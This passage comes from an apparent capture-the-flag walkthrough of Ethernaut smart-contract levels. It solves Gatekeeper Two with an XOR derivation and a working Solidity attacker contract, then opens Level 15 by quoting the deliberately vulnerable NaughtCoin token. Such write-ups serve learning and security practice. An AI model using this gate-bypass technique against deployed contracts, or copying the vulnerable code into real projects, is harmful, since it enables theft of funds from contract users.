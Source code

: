 Last requirement statement:
`require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);`

Let's have a look into that, one by one

I believe that some mathematical law applies for XOR, which allows us to do the following:
`A XOR B = C => A XOR C = B and B XOR C = A`

For our requirement statement that means:

`uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max)`

`uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) == type(uint64).max) ^ uint64(_gateKey)`

`type(uint64).max) ^ uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) == uint64(_gateKey)`

Time to craft our contract:

```solidity
interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GateCrusherTwo {
    constructor(address _contract) {
        GatekeeperTwo got = GatekeeperTwo(_contract);
        bytes8 _gateKey = bytes8(type(uint64).max ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        got.enter(_gateKey);
    }
}
```

There we go :)
Submit and you are done :)

### Learning
Nothing is safe from us :)

## Level 15: Naught Coin <a name="level-15-naught-coin"></a>

As always, let's have a look at the contract first:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }
```